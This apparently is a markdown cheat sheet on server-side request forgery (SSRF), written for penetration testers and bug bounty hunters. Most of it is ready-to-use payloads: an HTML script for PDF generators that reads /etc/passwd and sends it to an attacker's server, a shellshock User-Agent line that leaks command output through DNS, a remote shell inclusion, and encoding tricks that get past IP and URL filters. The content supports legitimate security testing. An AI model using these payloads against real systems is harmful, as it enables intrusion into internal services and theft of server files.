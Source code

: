 ## SSRF Attacks 
- SSRF attacks against the server itself
- SSRF attacks against other back-end systems



## Exploiting SSRF vulnerabilities can lead to:
- Interacting with known internal systems
- Discovering internal services via port scans
- Disclosing local/sensitive data
- Including files in the target application
- Leaking NetNTLM hashes using UNC Paths (Windows)
- Achieving remote code execution


## When hunting for SSRF vulnerabilities, we should `look for` OR `fuzz`:
- Parts of HTTP requests, including URLs
```
Note: Always keep in mind that web application fuzzing should be part of any penetration testing or bug bounty hunting activity.
That being said, fuzzing should not be limited to user input fields only.
Extend fuzzing to parts of the HTTP request as well, such as the User-Agent.
```
- File imports such as HTML, PDFs, images, etc.
- Remote server connections to fetch data
- API specification imports
- Dashboards including ping and similar functionalities to check server statuses


## Testing if app vulnerable to SSRF
The most common test is for local and remote file inclusion

- Load the Contents of a File (try RCE)
```
GET https://example.com/page?page=https://malicioussite.com/shell.php
```

- Access a Restricted Page
```
GET https://example.com/page?page=http://localhost/admin

Or:

GET https://example.com/page?page=http://127.0.0.1/admin

```
### methdology 
- try to include local or remote files (http,file,ftp)
- fuzz ports and check functionalities (ex:get dir listing)
- try to get info about the server (ex:/proc/self/environ , /etc/passwd)
- do not forget to url encode if going through more than one app (ex:trible url encode)


## Blind SSRF
- We can detect blind SSRF vulnerabilities via out-of-band techniques
- Blind SSRF vulnerabilities could exist in PDF Document generators and HTTP Headers, among other locations.

### blind SSRF via pdf generator 
```
<html>
    <body>
        <b>Exfiltration via Blind SSRF</b>
        <script>
        var readfile = new XMLHttpRequest(); // Read the local file
        var exfil = new XMLHttpRequest(); // Send the file to our server
        readfile.open("GET","file:///etc/passwd", true); 
        readfile.send();
        readfile.onload = function() {
            if (readfile.readyState === 4) {
                var url = 'http://<SERVICE IP>:<PORT>/?data='+btoa(this.response);
                exfil.open("GET", url, true);
                exfil.send();
            }
        }
        readfile.onerror = function(){document.write('<a>Oops!</a>');}
        </script>
     </body>
</html>


```
### blind SSRF via User-Agent header (shellshock)
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```

## Bypass

### SSRF with blacklist-based input filters

- Using an alternative IP representation for 127.0.0.1
```
127.1.
017700000001 (octal)
0x7f000001 (hexadecimal)
2130706433 (integer)
::ffff:7f00:1  , 0:0:0:0:0:ffff:7f00:0001 , 0000:0000:0000:0000:0000:ffff:7f00:0001(IPv6)

```
- Registering your own domain name that resolves to 127.0.0.1 OR any internal ip.
- Obfuscating blocked strings using URL encoding or case variation.
- Try using different redirect codes, as well as different protocols for the target URL.
```
file:// (file read)
netdoc:// (file read)
dict://
gopher://
jar://
ldap://

You might be able to get file read.

Or send multi-line requests to gain additional impact

(Ex: gopher + redis = likely RCE)
```
- Nip.io allows simple wildcard DNS for any IP address (127.0.0.1.nip.io = 127.0.0.1 )
```
127.0.0.1.nip.io  
0x7f000001.nip.io (hexadecimal IP notation)
Something.google.com.127.0.0.1.nip.io
```


### SSRF with whitelist-based input filters

- You can embed credentials in a URL before the hostname, using the @ character. For example:
```bash
https://expected-host:fakepassword@evil-host
```
- You can use the # character to indicate a URL fragment. For example:
```bash
https://evil-host#expected-host
```
- You can leverage the DNS naming hierarchy to place required input into a fully-qualified DNS name that you control. For example:
```bash
https://expected-host.evil-host
```
- You can URL-encode characters to confuse the URL-parsing code. This is particularly useful if the code that implements the filter handles URL-encoded characters differently than the code that performs the back-end HTTP request.
```text
Note
that you can also try double-encoding characters; some servers recursively URL-decode the input they receive, which can lead to further discrepancies.
```
- You can use combinations of these techniques together.

